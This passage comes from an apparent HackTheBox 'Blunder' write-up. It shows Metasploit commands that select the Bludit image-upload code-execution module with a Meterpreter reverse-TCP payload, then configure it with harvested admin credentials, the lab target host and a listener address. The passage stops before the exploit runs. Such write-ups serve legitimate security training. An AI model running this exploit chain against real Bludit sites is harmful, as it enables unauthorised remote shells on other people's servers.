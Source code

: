 ![Untitled](/assets/images/2022-06-09-blunder/Untitled.png)

# Exploitation

---

Now that I have access to the admin portal, I can use the metasploit module:

```bash
msf6 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability

Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/bludit_upload_images_exec

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
```

Configure the module:

```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > set bluditpass RolandDeschain
bluditpass => RolandDeschain
msf6 exploit(linux/http/bludit_upload_images_exec) > set bludituser fergus
bludituser => fergus
msf6 exploit(linux/http/bludit_upload_images_exec) >  set rhosts blunder.htb
rhosts => blunder.htb
msf6 exploit(linux/http/bludit_upload_images_exec) > set lhost tun0
lhost => tun0
```
